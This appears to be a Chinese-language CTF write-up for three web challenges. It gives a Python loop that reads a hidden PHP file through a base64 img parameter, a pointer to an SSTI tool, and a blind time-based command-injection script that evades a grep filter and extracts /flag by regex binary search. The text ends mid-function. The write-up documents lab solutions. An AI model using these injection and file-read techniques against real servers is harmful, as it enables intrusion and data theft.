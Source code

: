 - # 完美网站
	- 注意到地址中有base64编码的`tupian.png`，其中有隐写的字符串`ffffpq.php`
	- 注意到主页跳转时提示需要提供参数n, 提交n后有概率会读取参数img指定的图片
	- 写脚本爆`ffffpq.php`即可拿到flag
		- ```python
		  for _ in range(100):
		  
		      r = base_get(url, params = {
		          "n": 14,
		          "img": enc_dec.base64_encode("ffffpq.php")
		      }, acceptable_code=None, allow_redirects=False)
		      if len(r.text) == 30:
		          continue
		      if result := re.search(r"base64,(\S+)'/>", r.text):
		          print(result.group(1))
		      else:
		          print(r.text)
		      break
		  ```
- # It's Time
	- 直接用[Fenjing](https://github.com/marven11/fenjing)爆就行了
- # notrce
	- 使用`dir /flag && sleep 3`可以知道存在`/flag`文件
	- 使用`sort /flag |  gr'ep' -P 'flag{' && sleep 3`一个一个猜flag中的字符
	- 所以可以写个程序用正则爆flag
		- ```python
		  def test(regexp):
		      print(f"{regexp=}")
		      t = time.perf_counter()
		      r = requests.post(url, data = {
		          "c": f"sort /flag | gr'ep' -P '{regexp}' && sleep 1"
		      })
		      return time.perf_counter() - t > 1
		  
		  def char_type(known):
		      types = [
		          ("[A-Z]", ord("A"), ord("Z")),
		          ("[a-z]", ord("a"), ord("z")),
		          ("[0-9]", ord("0"), ord("9")),
		          ("_", ord("_"), ord("_")),
		          ("}", ord("}"), ord("}")),
		          ("{", ord("{"), ord("{")),
		      ]
		      for char_regexp, start, stop in types:
		          if test(known + char_regexp):
		              # print(f"char_type: {char_regexp=}")
		              return start, stop
		      return None, None
		  
		  def guess_from(known):
		      while True:
		          print(known)
		          start, stop = char_type(known)
		          if start is None or stop is None:
		              break
		          l, r = start, stop
		          while r - l > 0:
		              mid = (l + r) // 2
		              # print(f"guess_from: {l=} {r=}")
		              char_regexp = f"[{chr(l)}-{chr(mid)}]" if mid - l else chr(mid)
		              if test(known + char_regexp):
		                  r = mid